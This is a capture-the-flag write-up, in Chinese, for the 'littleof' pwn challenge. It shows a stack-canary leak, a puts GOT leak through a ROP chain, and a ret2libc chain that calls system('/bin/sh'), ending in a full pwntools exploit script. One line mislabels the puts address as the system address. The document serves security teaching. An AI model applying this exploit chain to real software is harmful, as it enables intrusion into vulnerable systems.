





# [2021 鹤城杯]littleof wp 

## 题面
附件提供二进制文件。  

## 分析
查看保护：
```
❯ pwn checksec --file=littleof                       
[*] '/data/project/ctf-repo/pwn/nssctf/littleof/littleof'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

开了 canary，还好没开 PIE。  

ida 反编译：
从 main 函数跳转到 sub_4006E2()：
``` c
unsigned __int64 sub_4006E2()
{
  char buf[8]; // [rsp+10h] [rbp-50h] BYREF
  FILE *v2; // [rsp+18h] [rbp-48h]
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v2 = stdin;
  puts("Do you know how to do buffer overflow?");
  read(0, buf, 0x100u);
  printf("%s. Try harder!", buf);
  read(0, buf, 0x100u);
  puts("I hope you win");
  return __readfsqword(0x28u) ^ v3;
}
```

两次 0x100 写入栈空间。第一次可以有printf输出。   

因为有 canary，可以把 canary 前面的空间填满，之后 %s 就会把 canary 值输出。  
二进制文件没有其他可以得到 flag 或者跳转 shell 的东西拿来用，所以需要泄漏下 libc 的版本和地址，拿到 libc 来进行 ret2libc 操作。  
之后就是简单的 ret2libc 操作了。  

## 利用
查看栈结构:

前面全填掉，并把 canary 最前面的 \x00 填掉，让 printf 输出 canary 值。  



之后接收这些字符串流，将其还原为 canary 值。  
其中：
``` python
canary = u64(io.recv(7).rjust(8, b"\x00"))
```

将 canary 的非零 7 字节接收，并在左边补个 0，并按小端序还原成 64 位整数。  

``` python
payload = b"a" * (0x50 - 0x8 - 4) + b"bbbb"
io.recvuntil(b"overflow?")
io.sendline(payload)
io.recvuntil(b"bbbb\n")
canary = u64(io.recv(7).rjust(8, b"\x00"))
print(f"canary: {hex(canary)}")
```



拿到 canary，这一步要和 pwndbg 多次比对确保拿到的 canary 值正确。  

接下来是泄漏 libc 函数的地址，去比对拿到远程 libc。  
因为没有格式化字符串漏洞可以使用，所以通过返回地址调用 puts 来泄漏 got 即可。  
首先泄漏 `puts.got`

这里需要找到 `pop rdi ; ret`，来给 puts 传参。  
``` python
puts_got_addr = elf.got["puts"]
puts_plt_addr = elf.plt["puts"]

io.recvuntil(b"harder!")

payload = (
    b"a" * (0x50 - 0x8)
    + p64(canary)
    + b"a" * 8
    + p64(pop_rdi_address)
    + p64(puts_got_addr)
    + p64(puts_plt_addr)
    + p64(main_addr)
)

io.sendline(payload)
io.recvuntil(b"I hope you win\n")
puts_addr = u64(io.recv(6).ljust(8, b"\x00"))
print(f"puts address = {hex(puts_addr)}")
```

原本出来如下，通过 recv 转换为 64 位整数就是 puts 值

之后可以再选择 read 泄漏最后得到:
puts: aa0, read 140。  
到 [libc.rip](libc.rip) 里就能得到对应版本的 libc：



之后保留泄漏 puts 的地址，减去 libc 偏移量就能得到 libc 基址。  

最后可以得到这些地址：  

```
canary: 0x38dd58b7d9d0c700
puts address = 0x7f9981a83fc0
libc base address = 0x7f9981a00000
system address = 0x7f9981a83fc0
/bin/sh address = 0x7f9981bb4a9a
```

有了这些地址，可以做最后的 ROP 链，调用 `system("/bin/sh")`:

``` python
io.recvuntil(b"overflow?")
io.sendline(b"")

payload = (
    b"a" * (0x50 - 0x8)
    + p64(canary)
    + b"a" * 8
    + p64(ret_address)
    + p64(pop_rdi_address)
    + p64(binsh_addr)
    + p64(system_addr)
)

io.recvuntil(b"harder!")
io.sendline(payload)
```

回调 main 进入 sub_4006E2 后先给 buf 空值，等第二次利用的时候加上 payload 链即可。  
这里因为 64 位的栈对齐，还需要一个 `ret` 。  

## 最终 exp
``` python
from pwn import *
from LibcSearcher import *


context(log_level="info")
io = process("./littleof")
#io = remote("node4.anna.nssctf.cn", 21178)
elf = ELF("./littleof")
#libc = ELF("./libc6_2.27-3ubuntu1.4_amd64.so")
libc = ELF("/usr/lib/libc.so.6")

context.gdb_binary = "/bin/pwndbg"

# gdb.attach(io)
payload = b"a" * (0x50 - 0x8 - 4) + b"bbbb"
ret_address = 0x040059E
pop_rdi_address = 0x400863
puts_got_addr = elf.got["puts"]
puts_plt_addr = elf.plt["puts"]
main_addr = 0x400789

io.recvuntil(b"overflow?")
io.sendline(payload)
io.recvuntil(b"bbbb\n")
canary = u64(io.recv(7).rjust(8, b"\x00"))
print(f"canary: {hex(canary)}")
io.recvuntil(b"harder!")

payload = (
    b"a" * (0x50 - 0x8)
    + p64(canary)
    + b"a" * 8
    + p64(pop_rdi_address)
    + p64(puts_got_addr)
    + p64(puts_plt_addr)
    + p64(main_addr)
)

io.sendline(payload)
# 跳回 main 函数

io.recvuntil(b"I hope you win\n")
puts_addr = u64(io.recv(6).ljust(8, b"\x00"))
libc_base_addr = puts_addr - libc.sym["puts"]
print(f"puts address = {hex(puts_addr)}")
print(f"libc base address = {hex(libc_base_addr)}")

system_addr = libc_base_addr + libc.sym["system"]
binsh_addr = libc_base_addr + next(libc.search(b"/bin/sh\x00"))
print(f"system address = {hex(puts_addr)}")
print(f"/bin/sh address = {hex(binsh_addr)}")

io.recvuntil(b"overflow?")
io.sendline(b"")

payload = (
    b"a" * (0x50 - 0x8)
    + p64(canary)
    + b"a" * 8
    + p64(ret_address)
    + p64(pop_rdi_address)
    + p64(binsh_addr)
    + p64(system_addr)
)

io.recvuntil(b"harder!")
io.sendline(payload)

io.interactive()
```
